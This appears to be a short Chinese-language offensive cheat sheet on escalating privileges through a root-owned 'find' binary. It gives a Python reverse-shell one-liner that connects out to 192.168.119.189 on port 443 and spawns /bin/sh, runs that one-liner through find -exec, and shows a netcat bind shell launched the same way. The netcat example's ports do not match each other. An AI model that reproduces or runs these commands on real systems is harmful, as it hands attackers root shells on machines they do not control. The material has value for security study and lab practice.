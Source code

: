# 确认 find 有 root 执行权限
执行命令
```
/usr/bin/find /tmp -exec whoami \;
```
确认 find 命令是否是 root 权限执行.

# 反弹 shell
1. 如果目标机上有 python 环境，可以使用 python 命令反弹 shell：
```
#反弹一个sh类型的shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
结合 find :
```
/usr/bin/find /tmp -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 

```
2. 也可以结合 nc 来获得 shell
```
find /tmp -exec netcat -lvp 8888 -e /bin/sh ;
```
然后 nc 主动连接：
```
netcat 127.0.0.1 5555
```
